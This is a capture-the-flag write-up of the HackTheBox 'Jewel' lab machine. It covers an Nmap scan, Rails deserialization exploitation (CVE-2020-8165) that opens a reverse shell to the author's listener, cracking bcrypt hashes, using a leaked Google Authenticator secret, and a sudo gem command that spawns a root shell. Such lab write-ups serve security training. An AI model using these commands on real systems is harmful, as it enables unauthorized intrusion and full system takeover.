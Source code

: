 ```yaml
---
layout: post
title:  "HackTheBox Jewel Writeup" 
tags: hackthebox ruby-on-rails-deserialization-attack google-authenticator gem
categories: hackthebox active-machine 
rel-img: /assets/img/htb/jewel/jewel.png
description: Exploiting ruby on rails vulnerability to gain first access, escalating priviledge using google authenticator and take advantage to sudo and gem to conquer the machine!!
---
```


### Hackthebox Jewel Writeup
![Jewel](/assets/img/htb/jewel/jewel.png)

## Abstract

Exploiting ruby on rails vulnerability to gain first access, escalating priviledge using google authenticator and take advantage to sudo and gem to conquer the machine!!

## Summary
1. Initial foothold
  - Nmap recon
  - gitweb enum
  - phusion passenger exploration
2. Ruby on Rails Deserialization Attack
3. User Flag
4. Priviledge Escalation
5. Root Flag

## Initial foothold

### Nmap recon

```
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 09:27 CEST
Nmap scan report for 10.10.10.211                                                                                                                                                                                                          
Host is up, received echo-reply ttl 63 (0.053s latency).                                                                                                                                                                                   
Scanned at 2020-10-23 09:27:54 CEST for 23s                                                                                                                                                                                                
Not shown: 997 filtered ports                                                                                                                                                                                                              
Reason: 997 no-responses                                                                                                                                                                                                                   
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                                              
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                                             
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)                                                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDK1T+N61bTR89bPSsTtguCPwCtq5IAemU5F9VO6hSw8hnLrQ+3Bx6Cjci6MFx9RAMOS4xVtsmqtDvmjrtQ5hYuOYXlafsv6QU+6LJ+vImDSXiunRdpck3Z6f8sIEOOtiCJZ9HDiAzE62nolJPe2ObtU/Of627MiAksFh6+oBl/ZoWnveQwY7TLgFf19IhHV4Q9OPUlqeokiWiTazbvj5jC8vWcnl+DpN3xTuiTV8b+xUyXnFyO/MBaKhRGBbcbBwOsFVPc8NFyuyardVWEblS+p6B1QG6C62/o2Ft8x9lk1cYEDaFH+IfIUGhHykFQlA8+Y4qee8+OtRKrfwkVyxOr                                                                                        
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)                                                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBgCpUS3ovp4tAKRfsFll+x5W6F28nQMhBrx06jDhK35Z10da2PX2vayLOniUTEsnb0hL/4phtNdI+QOKLPX+sg=                                                                         
|   256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA9poXYE6YrgNaTFpdzYtMPUeSwB416uWFLSrT55iwv0                                                                                                                                                         
8000/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.38                                                                                                                                                                                  
|_http-generator: gitweb/2.20.1 git/2.20.1                                                                                                                                                                                                 
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                               
| http-open-proxy: Potentially OPEN proxy.                                                                                                                                                                                                 
|_Methods supported:CONNECTION                                                                                                                                                                                                             
|_http-server-header: Apache/2.4.38 (Debian)                                                                                                                                                                                               
| http-title: 10.10.10.211 Git                                                                                                                                                                                                             
|_Requested resource was http://10.10.10.211:8000/gitweb/                                                                                                                                                                                  
8080/tcp open  http    syn-ack ttl 63 nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (91%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.39 - 3.2 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F928611%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)
```

Nmap revealed that port 22, 8000 and 8080 was open and SSH, Apache2 ,nginx webserver was respectively running on. Morevoer Nmap script gave information that webserver on 8000 was using gitweb 2.20.1 interface. 

### Gitweb enum

I started by searching for gitweb 2.21.1 available exploits but found nothing. Then i moved on enumerating gitweb web pages and found interesting file named bd.sql at URL http://10.10.10.211:8000/gitweb/?p=.git;a=blob;f=bd.sql;h=a7fddb693ca735f8aa1e4b09046cec2adddddc51;hb=HEAD, containing bill and jennifer user hashes:

`bill`:`$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`
`jennifer`:`$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy`

![gitweb file page](/assets/img/htb/jewel/jewel-gitweb.png)

I tried to crack these hashes but every attempt failed.

### Pushion Passenger exploration

So i decided to exploring web server on 8080 where Phusion Passenger 6.0.6 was running. I did not find any available eploit for this service, then i tried to register new account tthrough signup page:

![login page](/assets/img/htb/jewel/homepage-jewel.png)

After logging in i tried some attack but no luck. 

## Ruby on Rails Deserialization attack

After getting some hints from the HTB forum found that the ruby on rails version running on webserver was < 5.2.4.3 and it was vulnerable to deserialization attack (I found ruby on rails version at the URL http://10.10.10.211:8000/gitweb/?p=.git;a=commitdiff;h=5d6f436256c9575fbc7b1fb9621b18f0f8656741.

More information about this vulnerability can be found at Google Forum (https://groups.google.com/forum/#!topic/ruby-security-ann/OEWeyjD7NHY).

Following the PoC found at GitHub (https://github.com/masahiro331/CVE-2020-8165) and the python script created by @randomname83 i got reverse shell.

```
sh4ck@kali:~$ python3 exploit_poc_cve-2020-8165.py 10.10.10.211 10.10.14.83 4545

sh4ck@kali:~$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.211] 44778
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$i
``` 

## User Flag

After upgrading full interactive shell i got user flag under home bill folder.

```
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ export TERM=xterm
bill@jewel:~/blog$ cat user.txt
```
## Priviledge Escalation

Linpeas found two password hashes inside the file dump_2020-08-27.sql and bd.sql at /var/backups/ and /home/bill/blog/ respectively:

`jennifer` : `$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd5I02OnmkKnD3zA6MqMrzLKz0jeDO`

`Unknown`: `$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`

Listing the content of dump_2020-08-27.sql file got another hash of user bill:

`bill`: `$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`

Tried to crack these hashes using john.

`$ sudo john --format=bcrypt creds.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John has successfully cracked the hash and the credential is bill : spongebob. 

Tried to run the command $sudo -l  again to check any special privilege given to user bill, but it asked a Verification Code after entering the password. 
It appears that there is some two factor authentication enabled for normal users to run $sudo -l command. 
After some more enumeration got a hidden file google_authenticator inside the home directory (.google_authenticator). 
There is secret code inside this file which is 2UQI3R52WFCLE6JTLDCSJYMJH4, this code can be used to generate OTP.  
I have used authenticator addons for Firefox to generate OTP using this secret key. 

After addons installation and setting the OTP with secret key, i got otp time based number.

Copy the OTP and type the command $sudo -l then password spongebob then enter OTP as Verification code.
anyway i got some error. the issue was determinated bay time misalignment between remote server and my machine. So i had to set my machine time as per remote box. 
sudo -l revealed that user bill can run all the command using gem binary. 

```
bill@jewel:~/blog$ date
date
Mon 19 Oct 10:05:30 BST 2020
bill@jewel:~/blog$ sudo -l
sudo -l
[sudo] password for bill: spongebob

Verification code: 672111

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

## Root Flag

From GTFOBIN found gem binary privilege escalation vector using Sudo Right Exploitation to get root. Let us get root shell and capture root flag.
Getting Root Shell

```
bill@jewel:~/blog$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```
